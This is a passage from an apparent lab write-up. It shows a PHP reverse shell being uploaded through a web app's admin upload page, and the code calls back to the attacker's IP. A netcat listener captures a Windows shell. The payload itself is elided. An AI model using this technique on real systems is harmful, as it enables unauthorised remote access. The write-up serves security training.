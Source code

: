 If we use the exploit from https://github.com/Dhayalanb/windows-php-reverse-shell, we can create a reverse shell on the machine as follows:
```bash
❯ git clone https://github.com/Dhayalanb/windows-php-reverse-shell
❯ cd windows-php-reverse-shell
❯ nvim Reverse\ Shell.php
```
Change the parameters `$ip` and `$port` to :
```php
$ip = 10.10.16.5 # Your ip address
$port = 3333 # The port u want to listen
```
Now, we just need to upload the file to the server through the `/admin/candidates_add.php` page and open it on `/images/revShell.php` which will run this code:
```bash
   1   │ <?php
   2   │ 
   3   │ header('Content-type: text/plain');
   4   │ $ip   = "10.10.16.5"; //change this 
   5   │ $port = "3333"; //change this
   6   │ $payload = # TooLongToPaste
   7   │ $evalCode = gzinflate(base64_decode($payload));
   8   │ $evalArguments = " ".$port." ".$ip;
   9   │ $tmpdir =".";
  10   │ chdir($tmpdir);
  11   │ $res .= "Using dir : ".$tmpdir;
  12   │ $filename = "D3fa1t_shell.exe";
  13   │ $file = fopen($filename, 'wb');
  14   │ fwrite($file, $evalCode);
  15   │ fclose($file);
  16   │ $path = $filename;
  17   │ $cmd = $path.$evalArguments;
  18   │ $res .= "\n\nExecuting : ".$cmd."\n";
  19   │ echo $res;
  20   │ $output = system($cmd);
  21   │                         
  22   │ ?>
```
While executing, `$tmpdir` was set to `C:\\windows\tmp` and didn't work, if we change it to `.`, then it works fine. In another terminal, listening to port 3333, we obtained a reverse shell as `phoebe` user.
```bash
❯ nc -nlvp 3333
Connection from 10.10.10.239:63388
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```
